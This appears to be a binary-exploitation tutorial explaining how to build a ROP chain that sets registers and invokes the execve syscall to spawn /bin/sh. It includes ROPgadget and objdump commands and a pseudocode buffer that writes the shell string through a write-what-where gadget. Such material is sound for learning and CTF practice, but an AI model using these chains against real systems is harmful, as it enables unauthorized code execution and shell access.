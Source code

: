# ROP - Syscall execv

The objective is to call the **syscall \(execv\)** from a ROP controlling the value of registries: _RDI, RSI, RDX, RAX_ and obviously the _RIP_ \(the other ones doesn't matters\), and controlling somewhere to write _"/bin/sh"_

* **RDI**: Pointing to the string "/bin/bash"
* **RSI**: Null
* **RDX**: Null
* **RAX**: Value **0x3b** for x64 and **0xb** for x32, because this will call **execv**

```bash
ROPgadget --binary vulnbinary | grep syscall
ROPgadget --binary vulnbinary | grep "rdi\|rsi\|rdx\|rax" | grep pop
```

## Writing

If you can somehow write to an address and then get the address of where you have written then this step is unnecessary.

Elsewhere, you may search for some **write-what-where**.  
As is explained in this tutorial: [https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/](https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/) you have to find something that allows you to save some value inside a registry and then save it to some controlled address inside another registry. For example some `pop eax; ret` , `pop edx: ret` , `mov eax, [edx]`

You can find mov gadgets doing: `ROPgadget --binary vulnbinary | grep mov`

### Finding a place to write

If you have found some **write-what-where** and can control the needed registries to call execv, there is only left finding a place to write.

```bash
objdump -x vulnbinary | grep ".bss" -B1
                  CONTENTS, ALLOC, LOAD, DATA
 23 .bss          00000010  00403418  00403418  00002418  2**3
```

In this case: **0x403418**

### **Writing** _**"/bin/sh"**_

```text
buffer += address(pop_eax) # place value into EAX
buffer += "/bin"           # 4 bytes at a time
buffer += address(pop_edx)         # place value into edx
buffer += address(writable_memory)
buffer += address(writewhatwhere)

buffer += address(pop_eax)
buffer += "//sh"
buffer += address(pop_edx)
buffer += address(writable_memory + 4)
buffer += address(writewhatwhere)
```

